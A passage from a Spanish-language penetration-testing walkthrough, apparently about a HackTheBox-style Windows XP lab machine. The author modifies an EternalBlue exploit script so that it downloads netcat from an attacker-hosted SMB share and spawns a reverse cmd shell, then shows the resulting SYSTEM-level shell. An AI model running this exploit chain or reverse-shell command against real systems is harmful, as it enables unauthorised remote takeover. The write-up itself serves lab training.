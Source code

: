 Observa como en el **tcpdump** esta capturando la **traza ICMP**, entonces si es posible la inyección de comandos, osea que la máquina es vulnerable. Vamos a intentar subir una **netcat** desde ahí, para tratar de conectarnos de manera remota a la máquina. Vamos por pasos:

* Busquemos una **netcat**, en Kali ya tenemos una por defecto, solo tienes que buscarla con el comando **locate** y copiarla donde la vayas a ocupar:
```bash
locate nc.exe 
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
cp /usr/share/windows-resources/binaries/nc.exe .
ls           
BUG.txt                  eternalblue_exploit8.py  eternalchampion_poc.py  eternalsynergy_leak.py  mysmb.pyc       README.md
checker.py               eternalblue_poc.py       eternalromance_leak.py  eternalsynergy_poc.py   nc.exe          shellcode
eternal-blue.exe         eternalchampion_leak.py  eternalromance_poc2.py  infoleak_uninit.py      npp_control.py  zzz_exploit.py
eternalblue_exploit7.py  eternalchampion_poc2.py  eternalromance_poc.py   mysmb.py                __pycache__
```

* Ahora dentro del script **zzz_exploit.py**, vamos a indicar lo siguiente:
```bash
service_exec(conn, r'cmd /c \\Tu_IP\smbFolder\nc.exe -e cmd Tu_IP Cualquier_Puerto')
```
Esto lo que hará, será descargar la **netcat** de un servidor **SMB** que vamos a crear con **impacket** y que se alzará en la carpeta en donde tengamos la **nc.exe**.

* Ahora vamos a alzar el **servidor SMB**:
```bash
smbserver.py smbFolder $(pwd)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

* Una vez alzado, activamos una **netcat** en nuestra máquina. Aca puedes usar tambien **rlwrap**, pero no lo veo tan necesario, por eso usamos **netcat**:
```bash
nc -nvlp 443           
listening on [any] 443 ...
```

* Por último, activamos el Exploit y listo:
```bash
nc -nvlp 443           
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.4] 1037
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```
Gracias al **Eternal Blue**, entramos directamente como **NT Authority System**, aunque me parece extraño que no podamos usar el comando **whoami**. 

